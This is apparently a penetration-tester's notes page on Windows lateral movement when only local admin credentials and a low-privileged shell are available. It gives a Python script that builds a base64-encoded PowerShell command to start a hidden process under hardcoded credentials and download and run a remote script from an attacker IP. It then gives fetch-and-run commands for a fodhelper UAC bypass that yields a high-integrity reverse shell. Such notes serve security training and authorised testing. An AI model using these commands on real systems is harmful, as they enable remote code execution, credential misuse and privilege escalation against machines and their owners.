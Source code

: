 # Local Admin Lateral Movement

Useful if unable to PsExec, RDP, WINRM, but has local admin creds and low-privileged shell

**ps\_script.py**

* Edit lines 5-6 to be local admin creds
* Edit line 8 for attacker's IP for simple\_ps\_revshell

{% code lineNumbers="true" %}
```python
import base64

# Prepare the corrected PowerShell payload script to run as Bill
payload = (
    "$p=ConvertTo-SecureString 'P@ssw0rd123!' -AsPlainText -Force; "
    "$c=New-Object System.Management.Automation.PSCredential('client02\\bill',$p); "
    "Start-Process -FilePath 'powershell.exe' -ArgumentList "
    "'-NoProfile -ExecutionPolicy Bypass -Command iex (New-Object Net.WebClient).DownloadString(''http://192.168.45.218/runall.ps1'')' "
    "-Credential $c -WindowStyle Hidden"
)

# Encode the payload in UTF-16LE and then Base64
b64 = base64.b64encode(payload.encode('utf-16le')).decode('ascii')

# Construct the final one-liner for execution
one_liner = f"powershell.exe -NoProfile -NonInteractive -EncodedCommand {b64}"

# Display the one-liner
print(one_liner)
```
{% endcode %}

python ps\_script.py

<figure><img src="../.gitbook/assets/image (335).png" alt=""><figcaption></figcaption></figure>

Then paste the encoded powershell command in the low privileged shell

<figure><img src="../.gitbook/assets/image (336).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (337).png" alt=""><figcaption><p>This is normal!</p></figcaption></figure>

Might obtain a medium integrity shell only (checked using `whoami /all`)

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

[Bypass UAC using fodhelper.ps1](../privilege-escalation/privilege-escalation-windows.md#user-in-local-group-with-admin-privileges-uac-bypass)

```
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Edit IP and port in simple_ps_revshell.ps1
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

Obtained high integrity shell&#x20;

<figure><img src="../.gitbook/assets/image (338).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (339).png" alt=""><figcaption></figcaption></figure>
